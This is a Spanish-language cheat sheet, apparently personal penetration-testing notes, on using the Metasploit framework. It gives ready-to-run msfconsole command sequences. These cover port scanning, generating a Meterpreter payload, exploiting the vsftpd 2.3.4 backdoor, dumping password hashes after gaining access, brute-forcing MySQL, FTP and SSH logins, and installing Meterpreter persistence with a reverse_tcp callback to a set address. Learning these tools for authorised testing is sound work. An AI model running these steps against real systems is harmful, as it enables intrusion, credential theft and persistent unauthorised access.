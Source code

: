 # Metasploit 

Metasploit es un framework para pentest y ataque.  
Tiene varias herramientas incorporadas.  

## Explotación

En Kali Linux : `/usr/share/metasploit-framework/`  

Comandos basicos  
```
service postgresql start
msfdb init
msfconsole
help
help search
search name:wordpress
searc portscan type:auxiliary  
```

Ejemplo:  
```
msfconsole -q
msf > use auxiliary/scanner/portscan/tcp
info
show options
show advanced
show targets
show evasion 
show payloads 
set RHOST 10.10.2.14
set PORTS 20-500
run
```

Payloads:  
`/usr/share/metasploit-framework/modules/payloads/`  

```
msfconsole -q
msf > use payload/windows/meterpreter/bind_tcp
show options
set RHOST ip
get RHOST
#unset RHOST
setg RHOST ip #global
getg RHOST
set LPORT 20-500
generate
```

Exploits:  
`/usr/share/metasploit-framework/modules/exploits/`  

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST ip
exploit

whoami
id ....
background
```

Encoders:  
`/usr/share/metasploit-framework/modules/encoders/`  

```
msf > show encoders
```

Post:  
`/usr/share/metasploit-framework/modules/post/`  

Primero se ejecuta un exploit por ejemplo con `exploit -j`  
Y queda corriendo una sesion que se puede ver con `sessions`  

Luego:  
```
msf > use post/linux/gather/hashdump
show options
set SESSION [NUMERO DE SESION]
exploit
```

Oneliner  
```
msfconsole -x "use exploit/unix/ftp/vsftp_234_backdoor; set RHOST 10.10.2.14; exploit -j"
msf xxxx > 
sessions
sessions -i 1
#start shell
uname -a
ifconfig
bg
```

Nmap
```
smf> search portscan type:aurixiliary
use auxiliary/scanner/portscan/syn
show options
set RHOST 10.10.2.10,14
run
```

MySQL:  
Primero buscar en gooogle y descargar lista de passwords de mysql.  
```
msf> services -h
services -p 3306
search mysql type:auxiliary
use auxiliary/scanner/mysql/mysql_version
show options 
setg RHOST 10.10.2.10,14
run

use auxiliary/scanner/mysql/mysql_login
show options
set BLANK_PASSWORDS true
set USERPASS_FILE Desktop/mysqlpass.txt
run
```

FTP  
```
msf> search name:ftp type:auxiliary
services -p 21
services -s ftp
use auxiliary/scanner/ftp/ftp_version
show options
run
#search version in google, to find vuln
back
use auxiliary/scanner/ftp/ftp_login
show options
set BLANK_PASSWORDS true
set USER_AS_PASS true
set USERPASS_FILE Destop/ftppass.txt
run
pushm
use auxiliary/scanner/ftp/anonymous
show options
run
```

SSH  
```
msf> search name:ssh type:auxiliary
use auxiliary/scanner/ssh/ssh_version
show options
run

pushm
use auxiliary/scanner/ssh/ssh_login
set USER_AS_PASS true
set BLANK_PASSWORDS true
set USERPASS_FILE Destop/ftppass.txt
run
```

## Post Explotación  
Mantener el accesso.  
Despues de ejecutar un exploit y estar dentro del sistema: 

```
meterpreter> sysinfo
run persistence -h
run persistence -A -P windows/meterpreter/reverse_tcp -X -i 10 -p 5555 -r 172.16.99.222 #victim ip
background
sessions 
sessions -i X 
sysinfo
sessions -l
```

Luego hay remover backdoor.  
Habria q borrar el archivo del path remoto, remover linea de regedit tambien si lo fuera, etc.  





